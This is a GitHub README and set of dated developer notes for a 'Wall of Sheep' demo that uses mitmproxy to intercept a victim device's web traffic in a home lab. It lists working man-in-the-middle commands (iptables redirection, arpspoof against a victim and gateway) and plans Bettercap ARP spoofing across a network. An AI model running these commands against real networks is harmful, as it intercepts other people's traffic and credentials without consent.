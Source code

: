 # TheWallOfSheep_Demo

## Install requirements
`pip install -r requirements.txt`

### Venv(Options)
If your want to protect your computer envirement, using venv.
`python -m venv venv`
`./venv/Scripts/activate`
or
`source ./venv/Scripts/activate`
then
`pip install -r requirements.txt`

## Put mitm cert into your system
`mitmdump -s ./proxy/proxy.py`
After allowing traffic to pass through the proxy, connect to http://mitm.it. You can download a cert for your system.

## Run Web app

`python ./app/app.py`

## 0829

- Kali
  - sudo sysctl -w net.ipv4.ip_forward=1
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
  - mitmproxy -s ./proxy/proxy.py
  - python3 ./app/app.py
host: .60
iphone: .101
mitmproxy: .62
: 因為是透過 websocket 拿 mitmproxy 的東西然後放到前端，如果在 .62 以外的地方打開網頁會看不到 proxy 的流量，所以這邊可能要修改。
: 因為 https 沒有憑證不能解密，所以 mitmproxy 收到 https 時不能用，但是現在 proxy 因為通通攔截下來，所以受害者流量通過 https 時會直接攔截不到，導致網頁直接連不上，看看能不能改成只攔截 http。

## 0830
- sudo iptables -t nat -F
- sudo iptables -t nat -L -v -n
- sudo sysctl -w net.ipv4.ip_forward=1
- sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
- sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
- sudo arpspoof -i eth0 -t 192.168.1.60 192.168.1.1
- sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.60
- ./venv/bin/mitmdump -v -s ./proxy/proxy.py
- python ./app/app.py

- HTTPS 實際環境上應該抓不到，看看 Web 那端要不要改掉，然後可以用 Bettercap 對多個設備進行 arp spoofing

## 0902
- 已經大致把想做的功能做完，Project 還需要把 README 調整好，然後嘗試使用 Bettercap 對網內的 IP 進行攻擊
- 可以嘗試看看有沒有機會做"防禦"相關內容 ?
